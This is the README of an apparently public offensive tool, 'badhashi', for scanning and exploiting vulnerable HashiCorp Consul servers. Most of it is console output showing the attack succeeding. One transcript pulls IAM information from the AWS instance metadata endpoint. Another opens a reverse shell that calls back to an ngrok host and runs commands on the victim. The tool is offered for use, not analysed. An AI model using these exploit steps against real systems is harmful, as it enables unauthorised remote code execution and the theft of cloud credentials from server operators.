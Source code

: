 # badhashi
Scanning / Exploiting vulnerable hashicorp tools

![](https://github.com/grines/hashiscan/blob/main/badhashi.gif)

# Features Consul
- [X] AWS Meta data extraction
- [X] Status (Check if vulnerable
- [X] Reverse shell
- [ ] Custom payload
- [ ] scanning for vulnerable servers

# Features Nomad (Coming soon)
- [ ] AWS Meta data extraction
- [ ] Status (Check if vulnerable
- [ ] Reverse shell ( Raw_exec/ exec / docker)
- [ ] Custom payload
- [ ] scanning for vulnerable servers

# How
Start ngrok
./ngrok tcp 9000

```console
Connected <http://127.0.0.1:8500>$ check status
DisableRemoteExec: true
EnableRemoteScriptChecks: true
NodeName: mini.hsd1.wa.comcast.net
Version: 1.9.3
Server: true
```

```console
Connected <http://127.0.0.1:8500>$ exploit metadata
----
Check Registered
Waiting for command to register...
ID: Test
HTTP GET http://169.254.169.254/latest/meta-data/iam/info: 200 OK Output: {
  "Code" : "Success",
  "LastUpdated" : "2021-02-25T06:15:20Z",
  "InstanceProfileArn" : "arn:aws:iam::*************************************",
  "InstanceProfileId" : "AIPA2LE*************"
}
Check Deregistered
---
```

(cmd ngrok-host ngrok-port local-port) ** can replace ngrok with external ip.
```console
Connected <http://127.0.0.1:8500>$ exploit shell 2.tcp.ngrok.io 18563 9000
----
Check Registered
Waiting for callback...
2021/02/24 23:16:21 Listening on localhost:9000
Check Deregistered
---
Client 127.0.0.1:51771 connected.
bash-$: whoami
brian
```